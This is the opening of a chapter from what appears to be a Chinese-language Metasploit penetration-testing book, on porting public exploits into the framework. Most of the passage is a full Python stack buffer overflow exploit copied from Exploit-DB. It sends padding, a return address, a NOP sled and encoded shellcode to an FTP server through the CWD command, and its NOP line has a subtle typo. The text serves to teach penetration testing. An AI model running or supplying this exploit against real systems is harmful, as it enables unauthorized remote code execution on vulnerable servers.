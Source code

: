 # 移植漏洞

在上一章中，我们讨论了如何在 Metasploit 中编写漏洞利用。但是，在已经存在公共漏洞的情况下，我们不需要为特定软件创建漏洞。公开可用的漏洞可能使用不同的编程语言，如 Perl、Python、C 或其他语言。现在，让我们了解一些在各种不同编程语言中将漏洞移植到 Metasploit 框架的策略。这种机制使我们能够将现有的漏洞利用转化为与 Metasploit 兼容的漏洞利用，从而节省时间并使我们能够动态切换有效负载。在本章结束时，我们将了解以下主题：

*   从各种编程语言移植漏洞
*   从独立开发中发现要点
*   从现有独立扫描仪/工具脚本创建 Metasploit 模块

如果我们能够从现有的漏洞中找出哪些要点可以在 Metasploit 中使用，那么将脚本移植到 Metasploit 框架是一件容易的工作。

这种将漏洞利用移植到 Metasploit 的想法通过使独立脚本在广泛的网络（而不是单个系统）上可用来节省时间。此外，由于可以从 Metasploit 访问每个漏洞，因此它使渗透测试更有组织性。在接下来的部分中，让我们了解如何使用 Metasploit 实现可移植性。

# 导入基于堆栈的缓冲区溢出漏洞

在接下来的示例中，我们将看到如何将用 Python 编写的漏洞导入 Metasploit。可从以下位置下载公开可用的漏洞：[https://www.exploit-db.com/exploits/31255/](https://www.exploit-db.com/exploits/31255/) 。让我们按如下方式分析该漏洞：

```
import socket as s 
from sys import argv 

host = "127.0.0.1" 
fuser = "anonymous" 
fpass = "anonymous" 
junk = '\x41' * 2008 
espaddress = '\x72\x93\xab\x71' 
nops = 'x90' * 10 
shellcode= ("\xba\x1c\xb4\xa5\xac\xda\xda\xd9\x74\x24\xf4\x5b\x29\xc9\xb1"
"\x33\x31\x53\x12\x83\xeb\xfc\x03\x4f\xba\x47\x59\x93\x2a\x0e"
"\xa2\x6b\xab\x71\x2a\x8e\x9a\xa3\x48\xdb\x8f\x73\x1a\x89\x23"
"\xff\x4e\x39\xb7\x8d\x46\x4e\x70\x3b\xb1\x61\x81\x8d\x7d\x2d"
"\x41\x8f\x01\x2f\x96\x6f\x3b\xe0\xeb\x6e\x7c\x1c\x03\x22\xd5"
"\x6b\xb6\xd3\x52\x29\x0b\xd5\xb4\x26\x33\xad\xb1\xf8\xc0\x07"
"\xbb\x28\x78\x13\xf3\xd0\xf2\x7b\x24\xe1\xd7\x9f\x18\xa8\x5c"
"\x6b\xea\x2b\xb5\xa5\x13\x1a\xf9\x6a\x2a\x93\xf4\x73\x6a\x13"
"\xe7\x01\x80\x60\x9a\x11\x53\x1b\x40\x97\x46\xbb\x03\x0f\xa3"
"\x3a\xc7\xd6\x20\x30\xac\x9d\x6f\x54\x33\x71\x04\x60\xb8\x74"
"\xcb\xe1\xfa\x52\xcf\xaa\x59\xfa\x56\x16\x0f\x03\x88\xfe\xf0"
"\xa1\xc2\xec\xe5\xd0\x88\x7a\xfb\x51\xb7\xc3\xfb\x69\xb8\x63"
"\x94\x58\x33\xec\xe3\x64\x96\x49\x1b\x2f\xbb\xfb\xb4\xf6\x29"
"\xbe\xd8\x08\x84\xfc\xe4\x8a\x2d\x7c\x13\x92\x47\x79\x5f\x14"
"\xbb\xf3\xf0\xf1\xbb\xa0\xf1\xd3\xdf\x27\x62\xbf\x31\xc2\x02"
 "\x5a\x4e")

sploit = junk+espaddress+nops+shellcode
conn = s.socket(s.AF_INET,s.SOCK_STREAM)
conn.connect((host,21))
conn.send('USER '+fuser+'\r\n')
uf = conn.recv(1024)
conn.send('PASS '+fpass+'\r\n')
pf = conn.recv(1024)
conn.send('CWD '+sploit+'\r\n')
cf = conn.recv(1024)
conn.close()

```
